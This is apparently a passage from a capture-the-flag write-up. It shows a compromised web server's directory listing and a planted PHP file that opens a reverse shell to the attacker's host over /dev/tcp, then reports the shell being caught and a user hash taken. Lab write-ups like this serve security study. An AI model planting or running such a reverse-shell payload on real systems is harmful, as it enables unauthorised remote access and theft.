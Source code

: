 ```terminal 
drwxr-xr-x 11 www-data www-data    4096 Aug 14  2017 libraries
-rw-rw-r--  1 www-data www-data     968 Sep  7  2017 makedb
-rw-rw-r--  1 www-data www-data     968 Sep  7  2017 makedb.php
drwxr-xr-x 26 www-data www-data    4096 Aug 14  2017 media
-rw-rw-rw-  1 www-data www-data 1474911 Sep  7  2017 mod.out
drwxr-xr-x 27 www-data www-data    4096 Aug 14  2017 modules
-rw-rw-rw-  1 www-data www-data  252614 Sep  7  2017 onemoretry.txt
-rw-rw-rw-  1 www-data www-data     793 Sep  8  2017 out.zip
drwxr-xr-x 16 www-data www-data    4096 Aug 14  2017 plugins
-rw-r--r--  1 www-data www-data     836 Aug 14  2017 robots.txt
drwxr-xr-x  5 www-data www-data    4096 Aug 14  2017 templates
drwxr-xr-x  2 www-data www-data    4096 Sep  6  2017 tmp
-rw-r--r--  1 www-data www-data    1690 Aug 14  2017 web.config.txt
-rw-r--r--  1 www-data www-data    3736 Sep  6  2017 wordpress-shell.php
```
With *write* access to the directory files, a php file named **reverse.php** that triggers reverse shell was placed
on the directory.
```terminal 
www-data@a7018bfdc454:/var/www/html/files$ ls -l
ls -l
total 8
-rw-r--r-- 1 root     root     1406 Oct 17  2017 lcars.zip
-rw-r--r-- 1 www-data www-data   76 Jul 22 14:48 reverse.php
www-data@a7018bfdc454:/var/www/html/files$ cat reverse.php
cat reverse.php
 <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/9000 0>&1'"); ?>
``` 
Browsing to [https://10.10.10.61/files/reverse.php](https://10.10.10.61/files/reverse.php), triggered the reverse 
shell and was caught on port 9000 on the attacking host. The screenshot given below confirms that the shell is from the 
target and also the user hash.
